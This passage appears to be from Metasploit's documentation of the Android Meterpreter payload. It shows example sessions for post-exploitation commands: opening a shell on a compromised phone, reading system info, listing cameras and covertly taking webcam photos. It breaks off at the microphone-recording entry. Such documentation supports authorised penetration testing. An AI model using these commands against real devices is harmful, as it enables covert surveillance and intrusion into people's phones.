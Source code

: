 ```
 19     ksoftirqd/2                                                        root
 22     watchdog/3                                                         root
 23     migration/3                                                        root

...
```

**shell**

The `shell` command allows you to interact with a shell:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10231(u0_a231) gid=10231(u0_a231) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50231(all_a231) context=u:r:untrusted_app:s0
```

To get back to the Meterpreter prompt, you can do: [CTRL]+[Z]

**sysinfo**

The `sysinfo` command shows you basic information about the Android device.

```
meterpreter > sysinfo
Computer    : localhost
OS          : Android 5.1.1 - Linux 3.10.61-6309174 (aarch64)
Meterpreter : java/android
```

**webcam_list**

The `webcam_list` command shows a list of webcams you could use for the `webcam_snap`
command. Example:

```
meterpreter > webcam_list
1: Back Camera
2: Front Camera
```

**webcam_snap**

The `webcam_snap` command takes a picture from the device. You will have to use the
`webcam_list` command to figure out which camera to use. Example:

```
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /Users/user/rapid7/msf/uFWJXeQt.jpeg
```

**record_mic**

